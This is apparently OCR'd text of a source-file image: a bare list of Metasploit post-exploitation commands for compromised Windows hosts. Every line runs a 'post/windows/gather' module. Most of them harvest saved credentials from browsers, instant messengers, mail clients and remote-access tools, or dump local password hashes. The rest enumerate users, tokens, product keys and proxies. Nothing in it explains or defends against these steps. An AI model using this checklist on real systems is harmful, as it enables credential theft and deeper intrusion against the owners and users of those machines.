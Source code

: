 run post/windows/gather/enum_hostfile

run post/windows/gather/credentials/heidisql

run post/windows/gather/enum_hyperv_vms

run post/windows/gather/credentials/icq

run post/windows/gather/enum_ie

run post/windows/gather/credentials/idm

run post/windows/gather/enum_logged_on_users

run post/windows/gather/credentials/ie

run post/windows/gather/enum_ms_product_keys

run post/windows/gather/credentials/imail

run post/windows/gather/enum_muicache

run post/windows/gather/credentials/imvu

run post/windows/gather/enum_onedrive

run post/windows/gather/credentials/incredimail

run post/windows/gather/credentials/kakaotalk

run post/windows/gather/credentials/kmeleon

run post/windows/gather/enum_prefetch

run post/windows/gather/credentials/viber (instant messenger)

run post/windows/gather/credentials/line (instant messenger)

run post/windows/gather/enum_proxy

run post/windows/gather/credentials/maxthon

run post/windows/gather/credentials/mcafee_vse_hashdump

run post/windows/gather/credentials/mdaemon_cred_collector



run post/windows/gather/credentials/meebo

run post/windows/gather/enum_snmp

run post/windows/gather/credentials/miranda

run post/windows/gather/enum_termserv

run post/windows/gather/credentials/mremote

run post/windows/gather/enum_tokens

run post/windows/gather/credentials/mssql_local_hashdump

run post/windows/gather/enum_tomcat

run post/windows/gather/credentials/nimbuzz
